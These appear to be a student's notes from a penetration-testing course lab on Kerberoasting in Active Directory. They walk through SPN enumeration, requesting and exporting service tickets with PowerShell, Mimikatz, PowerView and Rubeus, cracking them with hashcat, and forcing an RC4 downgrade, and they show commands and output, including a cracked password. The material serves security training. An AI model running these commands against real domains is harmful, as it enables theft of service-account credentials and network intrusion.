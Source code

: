 

## Semi Manual method

#### Enumerating SPNs with setspn.exe
```cmd-session
C:\htb> setspn.exe -Q */*
```
```cmd-session
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```
>>`Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using `Mimikatz`.`

#### Targeting a Single User

```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```


[^1]: Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):
	
	- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
	- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
	- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
	- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
	- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe
load into memory
```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz

```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```
```cmd-session
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSF==
```
-base64 retrieved
>If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files.

---
#### Preparing the Base64 Blob for Cracking
```bash
AhmaDb0x@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```

>We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

#### Placing the Output into a File as .kirbi
```bash
AhmaDb0x@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

#### Extracting the Kerberos Ticket using kirbi2john.py
```bash
$ kirbi2john.py sqldev.kirbi
```
-This will create a file called `crack_file`.

#### Modifiying crack_file for Hashcat
```shell-session
AhmaDb0x@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

#### Viewing the Prepared Hash
CAT

#### Cracking the Hash with Hashcat
```bash
AhmaDb0x@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
```shell-session
database!
```

#### alternative
If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

----
----
----


## Automated / Tool Based Route
#### Using PowerView to Extract TGS Tickets
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

#### Using PowerView to Target a Specific User

```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```


#### Viewing the Contents of the .CSV File
cat

# Using Rubeus
```powershell-session
PS C:\htb> .\Rubeus.exe
```
```powershell-session
Roasting:
```


[^2]: - Performing Kerberoasting and outputting hashes to a file
	- Using alternate credentials
	- Performing Kerberoasting combined with a pass-the-ticket attack
	- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
	- Requesting tickets for accounts passwords set between a specific date range
	- Placing a limit on the number of tickets requested
	- Performing AES Kerberoasting


#### Using the /stats Flag

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```
```powershell-session
*] Total kerberoastable users : 9


 ------------------------------------------------------------
 | Supported Encryption Type                        | Count |
 ------------------------------------------------------------
 | RC4_HMAC_DEFAULT                                 | 7     |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
 ------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2022                   | 9     |
 ----------------------------------
```

[^3]

[^3]: Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat. Per the documentation, the ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function"; therefore, we won't have to worry about trimming white space or newlines before cracking with Hashcat.

---
#### Using the /nowrap Flag
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
```powershell-session
[*] Total kerberoastable users : 3
```

----

Kerberoasting tools typically request `RC4 encryption` when performing the attack and initiating TGS-REQ requests.

`$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket.
AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`
which is hard to crack

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

```powershell-session
serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```
`0 ===  the default of RC4_HMAC_MD5`
`24`, ===  `meaning that AES 128/256 encryption types are the only ones supported.`


---

Let's assume that our client has set SPN accounts to support AES 128/256 encryption.
```powershell-session
$krb5tgs$18$
```
use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table

use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

---

![image](https://academy.hackthebox.com/storage/modules/143/kerb_tgs_18.png)

$krb5tgs$23$*
the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256. This simple example shows the importance of detailed enumeration and digging deeper when performing attacks such as Kerberoasting. Here we could downgrade from AES to RC4 and cut cracking time down by over 4 minutes and 30 seconds. In a real-world engagement where we have a strong GPU password cracking rig at our disposal, this type of downgrade could result in a hash cracking in a few hours instead of a few days and could make and break our assessment.

```
This does not work against a Windows Server 2019 Domain Controller,
It will always return a service ticket encrypted with the highest level of encryption supported by the target account.
---
but before 2016 set aes encryption for account wont save downgrading


```



